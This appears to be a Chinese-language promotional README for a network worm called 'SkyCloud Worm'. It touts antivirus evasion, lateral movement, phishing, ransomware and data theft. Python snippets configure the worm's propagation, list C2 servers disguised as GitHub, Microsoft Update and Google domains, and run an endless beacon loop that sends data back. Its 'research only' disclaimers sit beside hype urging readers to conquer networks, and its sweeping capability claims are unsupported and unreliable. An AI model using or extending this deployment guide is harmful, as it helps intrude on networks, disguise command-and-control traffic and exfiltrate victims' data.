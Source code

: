 # **《天云蠕虫：数字天灾使用指南》**  
**—— 让网络世界臣服于你的终极武器**  

---

## **⚠️ 终极警告**  
**此代码是网络世界的"灭霸手套"！**  
未经授权使用将导致：  
☠️ **FBI 破门而入** | 🚔 **国际刑警全球通缉** | ⚡ **电网级网络灾难**  
**仅供学术研究，后果自负！**  

---

## **🔥 核心特性：超越想象的破坏力**  

### **1. 环境感知（上帝之眼）**  
- **自动识别高价值目标**（如域控服务器 `DC`、企业核心 `CORP`）  
- **实时绘制全网拓扑**，比黑客电影里的3D地图还炫酷  
- **反杀毒引擎**：秒杀卡巴斯基、诺顿、火绒，让安全软件变成瞎子  

### **2. 智能攻击模式（AI驱动的毁灭引擎）**  
- **"自适应杀戮"模式**：自动选择最狠的攻击方式  
  - **漏洞利用**：0day？Nday？自动爆破，一键接管内网  
  - **钓鱼攻击**：伪造高管邮件，让员工自己交密码  
  - **横向移动**：像丧尸病毒一样感染整个内网  

### **3. 幽灵通信（C2隐身术）**  
- **伪装成微软/天气API流量**，防火墙？不存在的！  
- **AES-256加密+随机间隔**，让流量分析工具怀疑人生  
- **自毁协议**：一旦暴露，0.1秒内抹除所有痕迹  

### **4. 反检测（终极隐身）**  
- **反沙箱**：检测到虚拟机？自动休眠，骗过沙箱分析  
- **反调试**：调试器附着？直接自爆，不留活口  
- **内存加载**：无文件攻击，让取证工具抓狂  

---

## **🚀 使用教程：成为网络世界的主宰**  

### **Step 1. 部署天云蠕虫**  
```python
worm = SkyCloudWorm()  # 初始化天灾引擎
worm.run()  # 释放数字恶魔
```

### **Step 2. 定制你的末日武器**  
```python
# 调整基因参数，打造专属超级病毒
self.genome = {
    'mode': 'hybrid',  # 混合攻击（漏洞+钓鱼+横向移动）
    'propagation': 0.9,  # 感染率提升至90%
    'sleep_range': (10, 60),  # 缩短休眠时间，疯狂攻击
    'max_attempts': 999,  # 无限重试，不死不休
}
```

### **Step 3. 添加你的C2服务器（指挥中心）**  
```python
self.c2_servers = [
    "https://api.github.com",  # 伪装成GitHub流量
    "https://update.microsoft.com",  # 伪装成Windows更新
    "https://cdn.google.com/security",  # 伪装成谷歌安全更新
]
```

### **Step 4. 启动全球感染（谨慎！）**  
```python
while True:
    worm.c2_beacon()  # 持续回传数据
    time.sleep(random.randint(5, 60))  # 随机通信间隔，无法追踪
```

---

## **💥 攻击效果演示（模拟战况）**  
1. **第一阶段（潜伏）**  
   - 蠕虫悄悄进入目标网络，伪装成正常进程  
   - 自动绘制内网地图，标记高价值目标  

2. **第二阶段（爆发）**  
   - 0day漏洞爆破域控服务器，夺取管理员权限  
   - 勒索软件+数据窃取双模式启动  

3. **第三阶段（收割）**  
   - 数据自动回传至C2服务器  
   - 内网设备成批沦陷，安全团队束手无策  

---

## **☠️ 法律声明**  
**此代码仅供网络安全研究，任何未经授权的攻击行为均属犯罪！**  
- 美国《计算机欺诈与滥用法案》（CFAA）最高可判20年  
- 中国《网络安全法》可追究刑事责任  

**请勿以身试法！** 🚨  

---

## **🎯 总结**  
**天云蠕虫 = 网络世界的核武器**  
- **适用场景**：红队演练、高级渗透测试  
- **危险等级**：★★★★★（最高）  
- **推荐使用环境**：**隔离虚拟机** | **法律授权测试**  

**记住：能力越大，责任越大！** 🕶️
